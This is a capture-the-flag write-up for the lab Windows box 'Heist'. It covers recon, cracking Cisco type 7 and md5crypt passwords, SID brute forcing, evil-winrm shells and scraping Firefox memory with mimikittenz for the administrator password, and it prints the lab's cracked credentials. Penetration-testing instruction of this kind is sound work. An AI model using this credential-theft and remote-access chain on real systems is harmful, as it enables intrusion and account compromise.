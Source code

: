 # Heist

## Overview

Heist is an easy difficulty Windows box with an 'Issues' portal accessible on the web server, from which it is possible to gain Cisco password hashes. These hashes are cracked, and subsequently RID bruteforce and password spraying are used to gain a foothold on the box. The user is found to be running Firefox. The firefox.exe process can be dumped and searched for the administrator's password.

## Initial Recon
```
nmap -p 1-10000 -sV -sS --version-intensity 9 -T4 -Pn $IP
```
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-12 10:45 UTC
Nmap scan report for 10.10.10.149
Host is up (0.84s latency).
Not shown: 9996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 289.66 seconds
```

## User flag

### Port 80 - Issues web portal

After logging in as a guest, we can see an issue with an attachment at this url: `http://$IP/attachments/config.txt`

It's a Cisco router config file, the entire content is interesting but here are the most important parts:
```
service password-encryption
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
```

### Cracking passwords

`service password-encryption` -> Enable vigenere encoding on passwords in the config file
`$1$pdQG$o8nrSzsGXeaduXrjlvKc91` -> not affected by vigenere encoding, this is just md5

Vigenere encoding is trivial to reverse:  
`0242114B0E143F015F5D1E161713` -> `$uperP@ssword`
`02375012182C1A1D751618034F36415408`-> `Q4)sJu\Y8qz*A3?d`

After that, we can also work on decrypting the type 5 password using john the ripper:
```
john --format=md5crypt --wordlist=./rockyou.txt routerSecret
```
```
1g 0:00:00:25 DONE (2025-01-12 09:21) 0.03881g/s 136074p/s 136074c/s 136074C/s stealthxxx..steale
```

`$1$pdQG$o8nrSzsGXeaduXrjlvKc91` -> `stealth1agent`

### SMB / RPC

Then after tring some usernames and passwords combinaisons, we are able to connect to the smb / rpc server and list some shares:
```
smbclient -U "hazard%stealth1agent" -L $IP
```
```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

Nothing very interesting here but using these credentials we can try a few things like trying to enumerate other users:

```
impacket-lookupsid Hazard@$IP
```

```
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

### WINRM

After some trial and error, we found that we can have a shell with the `Chase` user and the decrypted admin password we got in the cisco config file.

```
evil-winrm -i $IP -u Chase -p 'Q4)sJu\Y8qz*A3?d'
```

```
Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> ls
*Evil-WinRM* PS C:\Users\Chase\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Chase\Desktop> ls


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-ar---        1/11/2025  10:04 PM             34 user.txt
```
Here is the user.txt flag.

## Privilege Escalation

As `Chase` user, we can import mimikittenz and try to dump some processes memory as we know that the Administrator answers on the 'Issues' portal and some `firefox` processes are running:

```
*Evil-WinRM* PS C:\Users\Chase\Documents> Get-Process
```
```
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    475      19     2332       5180               376   0 csrss
    285      13     2276       4804               484   1 csrss
    354      15     3480       7064              5040   1 ctfmon
    253      14     3964      13164              3776   0 dllhost
    164       9     1872       9808       0.05   6888   1 dllhost
    613      31    28880       9428               964   1 dwm
   1485      58    23276      18880              4564   1 explorer
    355      25    16408      29748       0.20   5624   1 firefox
   1079      76   190776     308136      12.61   6428   1 firefox
    347      19    10220     176268       0.16   6692   1 firefox
    401      36    50156     352080       3.11   6820   1 firefox
    378      29    30220     313548       2.22   7068   1 firefox
     49       6     1800       4604               780   1 fontdrvhost
     49       6     1524       3888               784   0 fontdrvhost
      0       0       56          8                 0   0 Idle
    990      23     6140      15060               636   0 lsass
    223      13     3000       9808              2960   0 msdtc
      0      12      328      15044                88   0 Registry
    144       8     1612       3652              5476   1 RuntimeBroker
    539      11     5232       9584               616   0 services
    726      29    15208       9848              5232   1 ShellExperienceHost
    435      17     4796      19172              4660   1 sihost
     53       3      516       1144               268   0 smss
    473      22     5708       7932              2416   0 spoolsv
```

After some modification in mimikittenz' code to focus on the login.php POST request parameters, we get the Administrator password.

```
Invoke-mimikittenz
```
```
───▐▀▄──────▄▀▌───▄▄▄▄▄▄▄─────────────
───▌▒▒▀▄▄▄▄▀▒▒▐▄▀▀▒██▒██▒▀▀▄──────────
──▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄────────
──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▄▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄──────
▀█▒▒█▌▒▒█▒▒▐█▒▒▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌─────
▀▌▒▒▒▒▒▀▒▀▒▒▒▒▒▀▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐───▄▄
▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌▄█▒█
▐▒▒▒▒mimikittenz-1.0-alpha▒▒▒▒▒▒▒▒▒▐▒█▀─
▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐▀───
▐▒▒▒▒▒▒CAN I HAZ WAM?▒▒▒▒▒▒▒▒▒▒▒▒▌────
─▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐─────
─▐▒▒▒jamieson@dringensec.com▒▒▒▒▌─────
──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐──────
──▐▄▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▄▌──────
────▀▄▄▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀────────

PatternName PatternMatch
----------- ------------
Login       login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

Finally, we can try to get a shell with the `Administrator` user with the password we got in the memory dump.

```
evil-winrm -i $IP -u Administrator -p '4dD!5}x/re8]FBuZ'
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls


    Directory: C:\Users\Administrator\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   8:24 AM            343 chase.ps1


*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/11/2025  10:04 PM             34 root.txt
```

And here is the root flag.